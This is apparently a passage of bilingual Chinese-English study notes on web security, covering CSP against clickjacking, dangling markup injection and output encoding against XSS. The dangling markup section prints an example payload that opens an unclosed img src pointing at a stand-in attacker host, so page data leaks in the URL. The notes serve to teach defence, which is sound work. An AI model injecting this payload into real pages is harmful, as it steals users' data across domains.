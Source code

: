 Using content security policy to prevent clickjacking is more flexible than using the X-Frame-Options header because you can specify multiple domains and use wildcards. For example:

frame-ancestors 'self' https://normal-website.com https://*.robust-website.com

CSP还验证父帧层次结构中的每个frame，而`X-frame-Options`仅验证顶级frame。

建议使用CSP防止点击劫持攻击。您还可以将其与`X-Frame-Options`头相结合，在不支持CSP的旧浏览器（如Internet Explorer）上提供保护。

# Dangling markup injection

Dangling markup注入是一种在不可能进行完整的跨站点脚本攻击的情况下跨域捕获数据的技术。

假设应用程序以不安全的方式将攻击者可控制的数据嵌入其响应中：

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

payload ：

```html
"><img src='//attacker-website.com?
```

此负载创建一个`img`标记，并定义包含攻击者服务器上URL的`src`属性的开始。

请注意payload**没有闭合**src属性，该属性处于“Dangling (悬空)”状态

在该字符之前的所有内容都将被视为URL的一部分，并将在URL查询字符串中发送到攻击者的服务器

## How to prevent dangling markup attacks

可以和防xss的相同, by encoding data on output and validating input on arrival.

或者用 [content security policy](https://portswigger.net/web-security/cross-site-scripting/content-security-policy) ([CSP](https://portswigger.net/web-security/cross-site-scripting/content-security-policy)). 例如使用防止诸如img之类的标记加载外部资源的策略来防止某些（但不是全部）攻击。

# How to prevent XSS attacks

In general, effectively preventing XSS vulnerabilities is likely to involve a combination of the following measures:

- **Encode data on output.**

在将用户可控制的数据写入页面之前，应直接应用编码

- - **In an HTML context** you should convert non-whitelisted values into HTML entities:

    ```
    < to &lt;
    > to &gt;
    ```

  - **In a JavaScript string context** , non-alphanumeric values should be Unicode-escaped:

    ```
    < to \u003c
    > to \u003e
    ```
